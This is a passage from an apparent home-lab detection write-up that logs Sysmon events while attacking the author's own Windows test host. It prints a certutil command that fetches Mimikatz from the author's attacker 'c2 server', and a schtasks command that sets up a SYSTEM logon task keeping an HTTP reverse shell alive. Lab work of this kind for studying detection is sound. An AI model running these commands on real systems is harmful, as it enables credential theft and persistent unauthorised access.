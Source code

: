 Looking at the Sysmon logs and event activity, I was able to see the information about the account creation and the assignment to the administrator group:

![Pasted image 20250118151023](https://github.com/user-attachments/assets/53bfb39e-aefe-45e6-9d25-45dbb6ccea70)

## Mimikatz

As a final test, I will also be using mimikatz. Mimikatz is a powerful, open-source tool primarily used for testing the security of Windows environments. It is often used to demonstrate how attackers can extract sensitive information from memory, like plaintext passwords, password hashes, Kerberos tickets, and other authentication data.

To get started, I downloaded mimikatz:

![Pasted image 20250118152854](https://github.com/user-attachments/assets/0700249b-d761-4947-9f02-d85a2f99bba2)

Next, I used the target to download the malware from c2 server (my own attacking node):

```
certutil -urlcache -split -f "http://192.168.1.128:8080/mimikatz/x64/mimikatz.exe" C:\Users\soc\Desktop\lm3nitro\lm3nitro_mimikatz.exe
```

![Pasted image 20250118155016](https://github.com/user-attachments/assets/0fedd902-83c7-4f20-9b2d-79ea51e7ab17)

Looking at the logs, I can see that downloading the malware generated a process creation:

![Pasted image 20250118162259](https://github.com/user-attachments/assets/df646034-bef8-4012-8e77-891db243caf8)

I could also see that a network connection was detected, and in looking at the details I can see that it is to my attacking host (c2 server):

![Pasted image 20250118162007](https://github.com/user-attachments/assets/09990685-eba2-45d0-b19c-6a16dd36f569)

After downloading the malware, I created a scheduled task on the target/victim host to maintain the HTTP reverse shell:

```
schtasks /create /tn "lm3nitro_backdoor_task" /tr "C:\Users\soc\Desktop\lm3nitro\http_lm3nitro.exe" /sc onlogon /ru SYSTEM
```

![Pasted image 20250118155635](https://github.com/user-attachments/assets/a016917f-24c0-4419-adf0-52dcaf419267)

Below are the logs generated from the scheduled task creation:

![Pasted image 20250118161613](https://github.com/user-attachments/assets/fbed33b4-2004-4616-87c9-90a2a73d8a85)

Now that the HTTP reverse shell task was created and the target host had already downloaded the malware, I executed it:

![Pasted image 20250118160503](https://github.com/user-attachments/assets/db354a5d-a524-4a67-a11d-52acf772c947)

Based on the output above, the execution was successful. I also used VirusTotal to verify the malware as seen below:
